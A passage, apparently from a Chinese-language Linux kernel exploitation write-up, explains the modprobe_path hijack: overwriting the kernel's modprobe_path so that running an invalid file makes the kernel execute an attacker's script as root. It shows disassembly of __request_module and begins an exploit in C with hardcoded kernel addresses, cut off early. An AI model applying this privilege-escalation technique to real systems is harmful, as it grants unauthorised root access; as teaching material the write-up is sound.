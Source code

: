在这里调用了函数 call_usermodehelper_exec() 将 modprobe_path 作为可执行文件路径以 root 权限将其执行。我们不难想到的是：若是我们能够劫持 modprobe_path，将其改写为我们指定的恶意脚本的路径，随后我们再执行一个非法文件，内核将会以 root 权限执行我们的恶意脚本。  
  
或者分析vmlinux即可(对于一些没有call_modprobe()符号的直接交叉引用即可)。  
```
__int64 _request_module(
char a1,
        __int64 a2,
double a3,
double a4,
double a5,
double a6,
double a7,
double a8,
double a9,
double a10,
...)
{
......
if( v19 )
{
......
      v21 = call_usermodehelper_setup(
(__int64)&byte_FFFFFFFF82444700,// modprobe_path
(__int64)v18,
(__int64)&off_FFFFFFFF82444620,
3264,
0LL,
(__int64)free_modprobe_argv,
0LL);
......
}
.data:FFFFFFFF82444700 byte_FFFFFFFF82444700             ; DATA XREF: __request_module:loc_FFFFFFFF8108C6D8↑r
.data:FFFFFFFF82444700                 db 2Fh;/; __request_module+14B↑o ...
.data:FFFFFFFF82444701                 db  73h; s
.data:FFFFFFFF82444702                 db  62h; b
.data:FFFFFFFF82444703                 db  69h; i
.data:FFFFFFFF82444704                 db  6Eh; n
.data:FFFFFFFF82444705                 db  2Fh;/
.data:FFFFFFFF82444706                 db  6Dh; m
.data:FFFFFFFF82444707                 db  6Fh; o
.data:FFFFFFFF82444708                 db  64h; d
.data:FFFFFFFF82444709                 db  70h; p
.data:FFFFFFFF8244470A                 db  72h; r
.data:FFFFFFFF8244470B                 db  6Fh; o
.data:FFFFFFFF8244470C                 db  62h; b
.data:FFFFFFFF8244470D                 db  65h; e
.data:FFFFFFFF8244470E                 db    0
```  
### exp  
```
#include "src/pwn_helper.h"

#define BOF_MALLOC 5
#define BOF_FREE 7
#define BOF_WRITE 8
#define BOF_READ 9

size_t modprobe_path =0xFFFFFFFF81E48140;
size_t seq_ops_start =0xffffffff81228d90;

struct param {
size_t len;
```